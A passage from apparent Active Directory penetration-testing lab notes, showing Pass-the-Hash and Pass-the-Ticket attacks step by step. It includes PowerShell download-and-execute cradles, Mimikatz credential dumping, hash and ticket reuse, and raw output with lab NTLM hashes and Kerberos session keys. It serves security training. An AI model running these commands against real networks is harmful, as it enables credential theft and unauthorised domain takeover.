`Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.SECURITY.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'`: to pass the hash (PTH) and run PowerShell with the specified NTLM hash for the 'administrator' user in the 'research.SECURITY.local' domain.
(Using the extracted NTLM hash to authenticate as the administrator and run a new PowerShell session.)

*Terminal #4* (elevated session).

`Enter-PSSession prod.research.SECURITY.local`: to enter a remote PowerShell session on the 'prod' machine in the 'research.SECURITY.local' domain.
(Starting a remote session with the target machine 'prod.research.SECURITY.local' for further commands.)

`hostname`: to display the hostname of the current machine.
(Confirming the identity of the current machine in the remote session.)
`ipconfig`: to display the network configuration of the current machine.
(Retrieving the network configuration details of the current machine to understand its network environment.)

#### Lab Execution

*Terminal #1*.

`powershell -ep bypass`

`cd C:\Tools`, `Import-Module .\PowerView.ps1`

*Gather information about the current domain*

`Get-Domain`:
```
Forest                  : SECURITY.local ←
DomainControllers       : {prod.research.SECURITY.local} ←
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

The name of the current domain is "research.SECURITY.local" and the Fully Qualified Domain Name (FQDN) of the Domain Controller (DC) is "prod.research.SECURITY.local".

`Get-DomainSID`:
```
S-1-5-21-1693200156-3137632808-1858025440
```

`whoami`:
```
research\student ←
```

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : research.security.local
   Link-local IPv6 Address . . . . . : fe80::b50b:2e6a:12de:3908%13
   IPv4 Address. . . . . . . . . . . : 10.0.5.101 ←
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.5.1

Tunnel adapter isatap.research.security.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

`hostname`:
```
client
```

`ls \\prod.research.security.local\c$`:
```
ls : Access is denied ←
    + CategoryInfo          : PermissionDenied: (\\prod.research.security.local\c$:String) [Get-ChildItem], Unauthoriz
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

ls : Cannot find path '\\prod.research.security.local/c$' because it does not exist.
    + CategoryInfo          : ObjectNotFound: (\\prod.research.security.local/c$:String) [Get-ChildItem], ItemNotFound
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
```

*Find a machine in the current domain, on which the current user has local admin access*

`Find-LocalAdminAccess`:
```
seclogs.research.SECURITY.local ←
```

We can notice that "student" has admin access on the "seclogs.research.SECURITY.local" machine.

*Access the found machine*

`Enter-PSSession seclogs.research.SECURITY.local`

`whoami`:
```
research\student ←
```

*Check the current user privilege*

`whoami /all`:
```
USER INFORMATION
----------------

User Name        SID
================ ==============================================
research\student S-1-5-21-1693200156-3137632808-1858025440-1115


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes

========================================== ================ ============ ===============================================
================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled gr
oup
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled gr
oup, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled gr
oup
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled gr
oup
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeDebugPrivilege  ←             Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We have full privileges on the "seclogs.research.SECURITY.local" machine.

*Terminal #2*.

*Setup an HTTP file server on the attacker machine to serve the PowerShell scripts*

`cd C:\Tools`, `dir`, `python -m http.server 80`

*Terminal #1*.

*Enumerate all the available tokens*

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')`

`Invoke-TokenManipulation -Enumerate`:
```
Domain              : RESEARCH ←
Username            : administrator ←
hToken              : 4748
LogonType           : 2
IsElevated          : True
TokenType           : Primary
SessionID           : 1 ←
PrivilegesEnabled   : {SeChangeNotifyPrivilege, SeImpersonatePrivilege, SeCreateGlobalPrivilege}
PrivilegesAvailable : {SeIncreaseQuotaPrivilege, SeSecurityPrivilege, SeTakeOwnershipPrivilege,
                      SeLoadDriverPrivilege...}
ProcessId           : 2880

Domain              : NT AUTHORITY ←
Username            : SYSTEM ←
hToken              : 5160
LogonType           : 0
IsElevated          : True
TokenType           : Primary
SessionID           : 0 ←
PrivilegesEnabled   : {SeCreateTokenPrivilege, SeLockMemoryPrivilege, SeTcbPrivilege, SeSystemProfilePrivilege...}
PrivilegesAvailable : {SeAssignPrimaryTokenPrivilege, SeIncreaseQuotaPrivilege, SeSecurityPrivilege,
                      SeTakeOwnershipPrivilege...}
ProcessId           : 472

Domain              : NT AUTHORITY
Username            : NETWORK SERVICE
hToken              : 2988
LogonType           : 5
IsElevated          : True
TokenType           : Primary
SessionID           : 0
PrivilegesEnabled   : {SeChangeNotifyPrivilege, SeImpersonatePrivilege, SeCreateGlobalPrivilege}
PrivilegesAvailable : {SeAssignPrimaryTokenPrivilege, SeIncreaseQuotaPrivilege, SeAuditPrivilege,
                      SeIncreaseWorkingSetPrivilege}
ProcessId           : 1628
```

We can notice that "research\administrator" has logged into this machine.

*Dump NTLM hash of the logged in users*

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')`

`Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'`:
```
Hostname: seclogs.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # privilege::debug
Privilege '20' OK

mimikatz(powershell) # token::elevate ←
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM ←

372     {0;000003e7} 0 D 16657          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,20p)       Primary
 -> Impersonated ! ←
 * Process Token : {0;003846a5} 0 D 3709187     RESEARCH\student        S-1-5-21-1693200156-3137632808-1858025440-1115
(09g,23p)       Primary
 * Thread Token  : {0;000003e7} 0 D 3778856     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,20p)   Impersonation (Delegation)

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 167384 (00000000:00028dd8)
Session           : Interactive from 1
User Name         : administrator ←
Domain            : RESEARCH ←
Logon Server      : PROD ←
Logon Time        : 6/6/2024 11:58:48 AM
SID               : S-1-5-21-1693200156-3137632808-1858025440-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : RESEARCH
         * NTLM     : 84398159ce4d01cfe10cf34d5dae3909 ←
         * SHA1     : ccc47c4f9541f99b020d38b8f7ea10f7b4b8595c
         [00010000] CredentialKeys
         * NTLM     : 84398159ce4d01cfe10cf34d5dae3909
         * SHA1     : ccc47c4f9541f99b020d38b8f7ea10f7b4b8595c
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : RESEARCH
         * Password : (null)
        kerberos :
         * Username : administrator
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SECLOGS$
Domain            : RESEARCH
Logon Server      : (null)
Logon Time        : 6/6/2024 11:58:29 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : SECLOGS$
         * Domain   : RESEARCH
         * NTLM     : 67ec47f80c5c49f2a47fd228b40cd126
         * SHA1     : 0d74ac31bbd30c6e8e55a25d90960a5db69a0aab
        tspkg :
        wdigest :
         * Username : SECLOGS$
         * Domain   : RESEARCH
         * Password : (null)
        kerberos :
         * Username : seclogs$
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)
        ssp :
        credman :
```

We found the NTLM hash of the Domain administrator, which we can utilize to perform a Pass-The-Hash attack.

Now, we will perform a Pass-The-Hash attack using `Mimikatz` to gain domain administrator privileges in the powershell.exe shell.

To perform Pass-The-Hash attack, we need high privilege access on the machine, so run PowerShell as administrator to execute the following commands.

*Terminal #3* (run as administrator).

*Perform a Pass-The-Hash attack*

`powershell -ep bypass`

`cd C:\Tools`, `Import-Module .\Invoke-Mimikatz.ps1`

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5
dae3909 /run:powershell.exe
user    : administrator ←
domain  : research.security.local ←
program : powershell.exe ←
impers. : no
NTLM    : 84398159ce4d01cfe10cf34d5dae3909 ←
  |  PID  1312
  |  TID  3736
  |  LSA Process is now R/W
  |  LUID 0 ; 2183609 (00000000:002151b9)
  \_ msv1_0   - data copy @ 0000005797F681C0 : OK !
  \_ kerberos - data copy @ 0000005798499158
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000000579848CDC8 (16) -> null
```

We have successfully performed Pass-The-Hash attack using the domain admin NTLM hash.

*Terminal #4* (elevated session).

*Access the Domain Controller*

`ls \\prod.research.security.local\c$`:
```
    Directory: \\prod.research.security.local\c$ ←

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        8/22/2013   3:52 PM                PerfLogs
d-r---        10/1/2021   4:25 PM                Program Files
d-----        9/21/2021  12:28 PM                Program Files (x86)
d-r---        9/27/2021   9:00 AM                Users
d-----        9/27/2021   9:19 AM                Windows
```

`Enter-PSSession prod.research.SECURITY.local`

`hostname`:
```
prod ←
```

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : research.security.local
   Link-local IPv6 Address . . . . . : fe80::8905:eef3:93de:1e89%13
   IPv4 Address. . . . . . . . . . . : 10.0.0.165
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.0.1

Tunnel adapter isatap.research.security.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : research.security.local
```

### AD Lateral Movement: Pass-the-Ticket - Video/Lab

**Pass-the-Ticket** (PtT) is a credential theft technique where <u>attackers use stolen Kerberos tickets to authenticate to resources, such as file shares and other computers, without needing the user's password</u>. This technique allows <u>adversaries to move laterally within a network, seeking opportunities to escalate privileges or achieve their goals</u>.

<u>Both ticket-granting service (TGS) tickets and ticket-granting tickets (TGT) can be stolen and reused</u> by adversaries.
- **Without administrative privileges**, an adversary can <u>obtain the TGT and all TGS tickets for the current user using techniques like "fake delegation"</u>.
- **With administrative privileges**, an adversary can <u>dump the LSASS process and obtain all TGTs and TGS tickets cached on the system</u>.

#### Lab Environment

In this lab environment, GUI access to a Domain User called Research/Student on a Windows Server 2012 machine, which serves as your workstation. The workstation is vulnerable to Pass the Ticket attack.

Your task is to execute a Pass-The-Ticket attack. By performing this attack, you will impersonate a user's session by reusing the Kerberos tickets, with the ultimate aim of accessing resources and escalating privileges within the Active Directory environment.

**Objective**: Execute a Pass-The-Ticket (PtT) attack by impersonating a user session, and gaining unauthorized access to escalate privileges within the Active Directory environment.

Below are the tasks that you need to perform:
1. Conducting Reconnaissance
2. Attack Implementation
3. Export Kerberos ticket
4. Check Domain Controller Access

The best tools for this lab are:
- PowerView.ps1
- Invoke-Mimikatz.ps1
- HFS.

#### Lab Solution

*Terminal #1*.

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`hostname`: to display the name of the current host.
(Confirming the name of the current machine to ensure you are working on the correct host.)
`Find-LocalAdminAccess`: to find machines where the current user has local administrator access.
(Identifying machines where the current user has local admin rights, which are potential targets for further exploitation.)

`ls \\prod.research.SECURITY.local\c$`: to list the contents of the C$ share on the 'prod.research.SECURITY.local' machine (but access is denied).
(Attempting to access the C$ share on the 'prod.research.SECURITY.local' machine, but access is denied.)

*Terminal #2*.

`cd C:\Tools`, `dir`, `python -m http.server 80`: to start a simple HTTP server to serve the 'Invoke-Mimikatz.ps1' script.
(Setting up a simple HTTP server to host and serve the Mimikatz script for remote execution.)

*Terminal #1*.

`Enter-PSSession seclogs.research.SECURITY.local`: to start a remote PowerShell session with the machine 'seclogs.research.SECURITY.local'.
(Starting a remote session with the target machine 'seclogs.research.SECURITY.local' for further commands.)

`whoami`: to display the current username.
(Confirming the identity of the current user in the remote session.)
`whoami /priv`: to display the current user's privileges.
(Checking the privileges of the current user to understand the level of access and permissions.)

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')`: to download and execute the 'Invoke-Mimikatz.ps1' script from the specified URL.
`Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'`: to list and export all Kerberos tickets from the current session.
(Listing all Kerberos tickets in the current session and exporting them for further use in the Pass-The-Ticket attack.)

`ls`: to list the contents of the current directory.
(Verifying the presence of the exported Kerberos ticket file in the current directory.)

`Invoke-Mimikatz -Command '"kerberos::ptt [0;2939a]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi"'`: to pass the Kerberos ticket to the current session, effectively impersonating the user associated with the ticket.
(Using Mimikatz to inject the Kerberos ticket into the current session, allowing you to impersonate the user and access resources with their privileges.)

`klist`: to list the Kerberos tickets for the current user session.
(Verifying the Kerberos tickets in the current session to confirm the ticket injection was successful.)

`ls \\prod.research.SECURITY.local\c$`: to list the contents of the C$ share on the 'prod.research.SECURITY.local' machine.
(Accessing the C$ share on the 'prod.research.SECURITY.local' machine to confirm successful impersonation and access.)

#### Lab Execution

1. **Conducting Reconnaissance**

*Terminal #1*.

`powershell -ep bypass`

`cd C:\Tools`, `Import-Module .\PowerView.ps1`

`whoami`:
```
research\student ←
```

`hostname`:
```
client ←
```

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : research.security.local
   Link-local IPv6 Address . . . . . : fe80::b858:81eb:4fae:f5ac%13
   IPv4 Address. . . . . . . . . . . : 10.0.5.101 ←
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.5.1

Tunnel adapter isatap.research.security.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : research.security.local
```

`Get-Domain`:
```
Forest                  : SECURITY.local
DomainControllers       : {prod.research.SECURITY.local} ←
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

The name of the current domain is "research.SECURITY.local" and the Fully Qualified Domain Name (FQDN) of the Domain Controller (DC) is "prod.research.SECURITY.local".

`Get-DomainSID`:
```
S-1-5-21-1693200156-3137632808-1858025440
```

`ls \\prod.research.security.local\c$`:
```
ls : Access is denied ←
    + CategoryInfo          : PermissionDenied: (\\prod.research.security.local\c$:String) [Get-ChildItem], Unauthoriz
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

ls : Cannot find path '\\prod.research.security.local/c$' because it does not exist.
    + CategoryInfo          : ObjectNotFound: (\\prod.research.security.local/c$:String) [Get-ChildItem], ItemNotFound
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
```

*Discover machines with local admin access*

`Find-LocalAdminAccess`:
```
seclogs.research.SECURITY.local ←
```

`Find-LocalAdminAccess` function checks each machine in the current user's domain to see where the current user has local administrator access, which can be valuable for lateral movement.

*Enter a PowerShell session*

Now that we have identified a target machine ("seclogs.research.SECURITY.local"), we can start a PowerShell session on it.

`Enter-PSSession seclogs.research.SECURITY.local`

`hostname`:
```
seclogs ←
```

`whoami`:
```
research\student ←
```

*Check the current user privilege*

`whoami /priv`:
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeDebugPrivilege ←              Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

We have full privileges on the "seclogs.research.SECURITY.local" machine.

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : research.security.local
   Link-local IPv6 Address . . . . . : fe80::2830:5e44:582e:fc3e%13
   IPv4 Address. . . . . . . . . . . : 10.0.0.170
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.0.1

Tunnel adapter isatap.research.security.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : research.security.local
```

2. **Attack Implementation**

*Terminal #2*.

*Set up an HTTP file server to serve scripts*

`cd C:\Tools`, `ls`:
```
Directory: C:\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/22/2021  12:12 PM        2501632 hfs.exe
-a----        9/22/2021  12:12 PM        3190829 Invoke-Mimikatz.ps1 ←
-a----        9/22/2021  12:12 PM          94961 Invoke-TokenManipulation.ps1
-a----        9/22/2021  12:12 PM        1253993 mimikatz.zip
-a----        9/22/2021  12:12 PM         111892 Netcat.zip
-a----        9/22/2021  12:12 PM         769757 PowerView.ps1
-a----        9/22/2021  12:12 PM         790661 PowerView_dev.ps1
```

`python -m https.server 80`:
```
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

This server is mainly used for quickly and easily sharing files across a network, eliminating the need for cloud-based third-party services or dedicated hardware.
The file server becomes a conduit for transferring necessary files like `Invoke-Mimikatz` to the target machine, driving the next steps in the Pass-The-Ticket attack.

3. **Export Kerberos ticket**

*Terminal #1*.

*Export the TGS ticket*

`iex (New-Object Net.WebClient).DownloadString('http:\\10.0.5.101\Invoke-Mimikatz.ps1')`

We're equipped to perform the crucial task of extracting all Kerberos tickets tied to our current session. This is accomplished by utilizing the potent `sekurlsa::tickets /export` command.

`Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'`:
```
Hostname: seclogs.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::tickets /export

Authentication Id : 0 ; 3740894 (00000000:003914de)
Session           : Network from 0
User Name         : student ←
Domain            : RESEARCH ←
Logon Server      : (null)
Logon Time        : 6/5/2024 7:50:28 AM
SID               : S-1-5-21-1693200156-3137632808-1858025440-1115

         * Username : student
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 6/5/2024 7:26:55 AM ; 6/5/2024 5:20:23 PM ; 6/12/2024 7:20:23 AM
           Service Name (02) : krbtgt ; RESEARCH.SECURITY.LOCAL ; @ RESEARCH.SECURITY.LOCAL
           Target Name  (--) : @ RESEARCH.SECURITY.LOCAL
           Client Name  (01) : student ; @ RESEARCH.SECURITY.LOCAL
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             e06c6afe33b26d68956883d8dca2de1397609666b66218a766c5ca6c8e2172aa
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;3914de]-2-0-60a10000-student@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi !

Authentication Id : 0 ; 3740087 (00000000:003911b7)
Session           : Network from 0
User Name         : student
Domain            : RESEARCH
Logon Server      : (null)
Logon Time        : 6/5/2024 7:48:25 AM
SID               : S-1-5-21-1693200156-3137632808-1858025440-1115

         * Username : student
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 6/5/2024 7:26:55 AM ; 6/5/2024 5:20:23 PM ; 6/12/2024 7:20:23 AM
           Service Name (02) : krbtgt ; RESEARCH.SECURITY.LOCAL ; @ RESEARCH.SECURITY.LOCAL
           Target Name  (--) : @ RESEARCH.SECURITY.LOCAL
           Client Name  (01) : student ; @ RESEARCH.SECURITY.LOCAL
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             e06c6afe33b26d68956883d8dca2de1397609666b66218a766c5ca6c8e2172aa
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;3911b7]-2-0-60a10000-student@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi !

Authentication Id : 0 ; 192861 (00000000:0002f15d) ←
Session           : Interactive from 1
User Name         : maintainer ←
Domain            : RESEARCH ←
Logon Server      : PROD ←
Logon Time        : 6/5/2024 7:18:15 AM
SID               : S-1-5-21-1693200156-3137632808-1858025440-1116

         * Username : maintainer
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 6/5/2024 7:18:58 AM ; 6/5/2024 5:18:17 PM ; 6/12/2024 7:18:17 AM
           Service Name (02) : ldap ; prod.research.security.local ; @ RESEARCH.SECURITY.LOCAL
           Target Name  (02) : ldap ; prod.research.security.local ; @ RESEARCH.SECURITY.LOCAL
           Client Name  (01) : maintainer ; @ RESEARCH.SECURITY.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             963e778199a67e69b3e1eb0f15df58db01c37478de74bcfe8c0a981a5e8c4f25
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 4        [...]
           * Saved to file [0;2f15d]-0-0-40a50000-maintainer@ldap-prod.research.security.local.kirbi ! ←
         [00000001]
           Start/End/MaxRenew: 6/5/2024 7:18:17 AM ; 6/5/2024 5:18:17 PM ; 6/12/2024 7:18:17 AM
           Service Name (02) : LDAP ; prod.research.SECURITY.local ; research.SECURITY.local ; @ RESEARCH.SECURITY.LOCAL

           Target Name  (02) : LDAP ; prod.research.SECURITY.local ; research.SECURITY.local ; @ RESEARCH.SECURITY.LOCAL

           Client Name  (01) : maintainer ; @ RESEARCH.SECURITY.LOCAL ( RESEARCH.SECURITY.LOCAL )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             5bbfb5833c23cccfdfa22c2c50f34e9a99a9bcd7d41255ba3d59b4ab19a42000
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 4        [...]
           * Saved to file [0;2f15d]-0-1-40a50000-maintainer@LDAP-prod.research.SECURITY.local.kirbi !

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 6/5/2024 7:18:17 AM ; 6/5/2024 5:18:17 PM ; 6/12/2024 7:18:17 AM
           Service Name (02) : krbtgt ; RESEARCH.SECURITY.LOCAL ; @ RESEARCH.SECURITY.LOCAL
           Target Name  (02) : krbtgt ; RESEARCH.SECURITY.LOCAL ; @ RESEARCH.SECURITY.LOCAL
           Client Name  (01) : maintainer ; @ RESEARCH.SECURITY.LOCAL ( RESEARCH.SECURITY.LOCAL )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             ddb4dde1b8f83f2307d4750c44fae3fe82e6ec35a0ae33edda5de7c219a2e54e
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;2f15d]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi !

Authentication Id : 0 ; 192811 (00000000:0002f12b)
Session           : Interactive from 1
User Name         : maintainer
Domain            : RESEARCH
Logon Server      : PROD
Logon Time        : 6/5/2024 7:18:15 AM
SID               : S-1-5-21-1693200156-3137632808-1858025440-1116

         * Username : maintainer
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 6/5/2024 7:18:35 AM ; 6/5/2024 5:18:15 PM ; 6/12/2024 7:18:15 AM
           Service Name (02) : LDAP ; prod.research.SECURITY.local ; research.SECURITY.local ; @ RESEARCH.SECURITY.LOCAL

           Target Name  (02) : LDAP ; prod.research.SECURITY.local ; research.SECURITY.local ; @ RESEARCH.SECURITY.LOCAL

           Client Name  (01) : maintainer ; @ RESEARCH.SECURITY.LOCAL ( RESEARCH.SECURITY.LOCAL )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             3cc00c62aecd4ca789a81b125db68a56f61741872dc36b952eee897b72335dfc
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 4        [...]
